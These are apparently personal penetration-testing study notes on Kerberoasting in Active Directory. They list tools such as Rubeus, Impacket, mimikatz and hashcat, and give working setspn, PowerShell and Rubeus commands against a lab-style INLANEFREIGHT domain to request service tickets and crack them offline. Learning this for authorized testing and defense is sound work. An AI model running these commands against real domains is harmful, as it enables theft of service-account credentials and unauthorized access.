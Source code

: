 Abuses the [[Basics#Kerberos|Kerberos protocol ]]to harvest password hashes (TGS ticket) for AD users with Service Principal Name (SPN) values (service accounts). These hashes can then either be cracked offline, or we can use pass-the-hash functionalities (in `evil-winrm` for example).

Steps:
- Find accounts with SPN
- Trigger kerberoast attack with tools such as Rubeus
- Take hashes offline and use hashcat -m 13100

Tools:
- GetUserSPN from Impacket (python)
- kerberoast ()
- targetedKerberoast
- Rubeus

## Windows

### Long method

- Enumerate SPN with native command `setspn.exe` (`setspn.exe -Q */*`)
- Manually: load ticket into memory using Powershell:
	- ```Add-Type -AssemblyName System.IdentityModel
	- `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
- using `setspn.exe`:
	- `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
- Extract ticket from memory using mimikatz
- Use kirbi2john
- hashcat

### With tools
We have quicker method with tools doing most of the work:
- PowerView
- Rubeus
	- Examples:
		- `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
		-  `.\Rubeus.exe kerberoast /user:<my-user> /nowrap